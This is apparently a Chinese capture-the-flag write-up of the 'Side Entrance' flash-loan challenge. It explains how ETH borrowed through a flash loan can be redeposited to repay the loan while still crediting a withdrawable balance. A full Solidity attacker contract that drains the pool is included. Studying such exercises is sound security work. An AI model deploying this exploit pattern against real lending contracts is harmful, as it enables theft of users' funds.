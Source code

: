 ### 合约

- SideEntranceLenderPool：提供deposit和withdraw方法，支持闪电贷

### 脚本

- 部署SideEntranceLenderPool合约
- 向pool中deposit eth数目ETHER_IN_POOL
- 执行攻击脚本
- 期望pool中的余额为0，player余额大于ETHER_IN_POOL

### 题解

本题的攻克点在于deposit+withdraw，可以先通过闪电贷获得eth，再调用deposit获得凭证，再结束闪电贷后通过withdraw提取出eth，整体流程图如下所示：

![image](https://pic.imgdb.cn/item/654e6889c458853aef7bf623.jpg)


- 调用pool的flashLoan方法时会调用`IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();`  因此在攻击合约中需要实现`execute` 方法，做的工作就是进行deposit，从而完成闪电贷还款，还多记录了一份存款凭证
- player再通过调用withdraw方法从pool中取出对应的eth，全部转移到player，完成攻击

合约代码如下：
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../../src/side-entrance/SideEntranceLenderPool.sol";

contract Attacker {

    SideEntranceLenderPool pool;
    address owner;
    constructor(address _pool){
        pool = SideEntranceLenderPool(_pool);
        owner = msg.sender;
    }
    
    receive() external payable {
        payable(owner).transfer(msg.value);
    }

    function attack(uint256 amount) external payable{
        pool.flashLoan(amount);
    }

    function execute() external payable{
        uint256 value = msg.value;
        // deposit
        pool.deposit{value: value}();
    }

    function withdraw() external{
        pool.withdraw();
    }
}
```
